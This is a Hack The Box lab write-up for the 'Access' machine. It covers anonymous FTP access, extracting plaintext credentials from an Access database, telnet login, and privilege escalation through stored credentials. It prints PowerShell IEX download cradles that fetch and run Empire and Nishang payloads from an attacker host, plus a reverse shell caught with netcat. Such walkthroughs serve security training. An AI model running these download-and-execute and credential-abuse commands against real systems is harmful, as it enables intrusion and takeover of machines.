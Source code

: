 # Hackthebox 


Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.

### Attack Summary

1.
2.
3.
4.

## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So the first thing I try when I see an FTP server on HTB is to check for anonymous access. And behold we can log in anonymously on this one.

On the server we find two interesting files, backup.mdb & Access Control.zip.

The file "Access Control.zip" needs a password to unzip.

The other file is a database-file. We can use the tools "mdb-tools" on linux to extract data from the file. I used the following command to look for interesting tables in the database.

```
root@kali:~/htb/access# mdb-tables -1 backup.mdb | grep -E "(user|password)"
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

We found a couple of promising tables. Lets see what "auth_user" contains.

```
root@kali:~/htb/access# mdb-export backup.mdb auth_user > users.csv
root@kali:~/htb/access# cat users.csv 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

The table contains credentials for a couple of users. We can use the "access4u@security" password to open the "Access Control.zip" file which contains a personal folder file from Microsoft Exchange.

To read the file I imported it to Thunderbird and read the contents.

## Initial Compromise

Using the credentials from the e-mail we can log in to the system over the exposed telnet service.

```
root@kali:~/htb/access# telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

So here I used a Powershell download cradle to inject an Empire agent into memory and using that to mount or further privilege escalation recon.

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32:8000/empire.ps1')"
```

## Host situational awareness

From Empire we can launch different enumeration scripts such as PowerUp, Sherlock and JAWS etc.

The enumeration yielded a couple of potential privesc routes. The one that stuck out the most was the following in JAWS:

```
(Empire: GUSNRPXF) > scriptimport /root/tools/privesc/JAWS/jaws-enum.ps1
script successfully saved in memory
(Empire: GUSNRPXF) > scriptcmd jaws-enum.ps1                                                           


...


-----------------------------------------------------------
 Stored Credentials
-----------------------------------------------------------

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator 
    Type: Domain Password
    User: ACCESS\Administrator
```

## Privilege Escalation

Using the stored credentials we can spawn another reverse-shell. I used Nishang to accomplish this:

```
runas /user:ACCESS\Administrator /savecred "powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:8000/shell2.ps1')"
```

We can then just catch the shell with a simple netcat listener.

```
root@kali:~/htb/access# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.12] from access.htb [10.10.10.98] 49174
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator
```

We could just as easy spawn another high integrity Empire agent with the same runas command.

```
runas /user:ACCESS\Administrator /savecred "powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:8000/empire.ps1')"
```

